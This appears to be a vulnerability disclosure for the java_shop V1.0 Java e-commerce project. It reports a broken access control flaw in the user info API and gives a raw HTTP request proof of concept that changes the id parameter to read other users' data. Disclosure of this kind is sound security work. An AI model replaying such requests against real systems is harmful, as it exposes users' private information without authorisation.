


target:https://github.com/geeeeeeeek/java_shop version: V1.0

The system has a Broken Access Control vulnerability, which allows attackers to obtain sensitive information of users with different IDs by modifying the ID parameter.

POC:

```
GET /api/myapp/index/user/info?id=91 HTTP/1.1
Host:
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer:
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```



